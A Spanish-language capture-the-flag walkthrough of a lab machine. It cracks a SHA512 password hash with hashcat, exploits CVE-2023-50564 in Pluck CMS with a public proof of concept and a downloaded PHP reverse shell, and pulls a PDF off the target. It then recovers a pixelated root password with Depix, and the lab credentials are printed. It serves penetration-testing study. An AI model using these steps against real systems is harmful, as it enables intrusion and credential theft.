



# User flag

Para iniciar la máquina ejecutamos un `Nmap` para extraer sus puertos abiertos, los cuales resultan ser los puertos **22**, **80** y **3000**.


Cuando accedemos a la página web, con un vistazo rápido podemos observar una opción `admin` con la que podemos interacutar. A parte, también se puede ver que la página está utilizando un software llamado `pluck`.


Por otra parte, también podemos visitar la página web acccesible en el puerto 3000. 


Esta página resulta ser un repositorio de GIt.

Si revisamos el archivo `login.php` accesble en el repositorio podemos ver que se hace referencia a un archivo llamado `pass.php`. Además, se nos dice que en este archivo que las contraseñas estan siendo almacenadas en `SHA512`.



Al revisar el código de dicho archivo podemos ver la contraseña de un usuario.


Usando hachat desencriptamos la contraseña especificando el método de encriptado encontrado.

```bash
hashcat -m 1700 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```


Usando la contraseña `iloveyou1` accedemos al portal de login de pluck visto anteriormente.

En la página de administración vemos cual es la versión de pluck usada. 



Buscando en internet encontramos un exploit asociado a la versión de `pluck` utilizada.

[CVE-2023-50564](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC) `es una vulnerabilidad que permite cargas de archivos no autorizadas en Pluck CMS versión 4.7.18. Este exploit aprovecha una falla en la función de instalación de módulos para cargar un archivo ZIP que contiene un shell en PHP, lo que permite la ejecución remota de comandos.`

Para ejecutar exploit hay que ejecutar esta secuencia de comandos:

```bash
# Crear entorno virtual
python3 -m venv venv

# Activar entorno virtual
source venv/bin/activate

# Instalar requerimientos
pip install requests requests_toolbelt

# Clonar el repositorio
git clone https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC.git

# Moverse a la carpeta del exploit
cd CVE-2023-50564_Pluck-v4.7.18_PoC

# Cambiar los valores del exploit
nano poc.py

# Copiar reversehell de php de pentestmonkey
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php

# Cambiar valores de la reverse shell
nano shell

# Crear archivo zip con el payload
zip  ./payload.zip shell.php

# Ejecutar exploit
python poc.py

# Desactivar entorno virtual
deactivate
```

Las modificaciones que deben hacerse en el archivo `poc.py` son las siguientes:


Después de ejecutar el script habiendo hecho las modificaciones pertinentes, ganamos acceso como el usuario `www-data`.


Para una mayor comodidad, recomiendo hacer un upgrade de la shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# we need to *restart* to apply the changes, so we do:  
CTRL+Z  
stty raw -echo; fg  
reset xterm
export TERM=xterm
export SHELL=bash
```

Como hemos visto anteriormente existe un usuario llamado junior, así que intentamos acceder usando las credenciales con la que hemos logueado en la web, obteniendo así la flag de user.  


# Root flag

En el propio directorio de junior vemos que hay un archivo llamado `Using OpenVas.pdf`, perteneciente a root. Al tener esa extensión no lo podemos visualizar correctamente, así que lo compartimos con nuestra máquina local para poder abrirlo sin problemas.

```bash
# target machine
sudo python3 -m http.server 8080

# local machine
wget greenhprn.htb:8080/'Using OpenVas.pdf'
```

En el interior del archivo vemos un mensaje de root dirigido a junior con el siguiente contenido: 


Para poder saber cual es la contraseña que está usando root, debemos despixelar la imagen introducida en el pdf. 

Para ello, primero extraemos la imagen del pdf.

```bash
pdfimages -png file.pdf output_image
```

Seguidamente hacemos uso de la herramienta **Depix.py**.

```bash
# Instalation
git clone https://github.com/spipm/Depix
cd Depix
```

```bash
python3 depix.py -p /path/to/your/input/image.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o /path/to/your/output.png
```

Una vez ejecutado el comando en el archivo de salida se puede leer la siguiente contraseña: 

`_sidefromsidetheothersidesidefromsidetheotherside_`

Con esta contraseña ya podemos hacer el cambio de usuario a root y conseguir su flag.


